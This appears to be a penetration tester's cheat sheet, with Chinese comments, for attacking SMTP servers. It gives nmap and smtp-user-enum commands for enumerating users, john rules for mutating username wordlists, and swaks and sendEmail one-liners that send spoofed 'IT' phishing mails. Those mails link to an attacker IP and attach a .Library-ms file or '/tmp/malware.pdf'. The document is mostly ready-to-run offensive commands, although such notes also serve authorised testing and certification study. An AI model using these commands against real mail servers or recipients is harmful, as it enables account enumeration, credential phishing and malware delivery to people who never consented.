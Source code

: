 # Tips
通常用于用户名爆破(可以使用john single进行词表变异)，或者swaks的客户端钓鱼攻击
# Nmap
```bash
ls -lh /usr/share/nmap/scripts/ | grep smtp
nmap --script=smtp-enum-users 172.16.0.0 -p 25 -sV
```
# smtp-user-enum
```bash
smtp-user-enum -M {VRFY,EXPN,RCPT} -u <USER> -t <IP> 
smtp-user-enum -M VRFY -U users.txt -t 172.16.0.0
$ smtp-user-enum -M RCPT -U users.txt -T server-ips.txt
$ smtp-user-enum -M EXPN -D example.com -U users.txt -t 172.21.0.0
```
## Use Rule-based Mutating Wordlist
```bash
#对username"友好"的规则single
john -w=users.txt --rules=single --stdout > w_single.txt
/usr/share/wordlists/seclists/username
```

[[4. Client-Side Attack|Send Email via SMTP -- Client-Side Attack]]
# swaks
```bash
$ while read mail; do swaks --to $mail --from IT@targetdomain.com –header "Subject: Credentials / Errors" –body "goto http://attackerIP/" –server x.x.x.x; done < mails.txt

#多目标
swaks -t victim1 -t victim2 ... --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap

swaks -t $(cat emails | tr '\n' ',' | less) --from IT@targetdomain.com --header "Subject: Credentials / Errors" –body @body.txt -attach @config.Library-ms --server x.x.x.x --suppress-data -ap
```
# sendEmail
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a 
/tmp/malware.pdf

Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```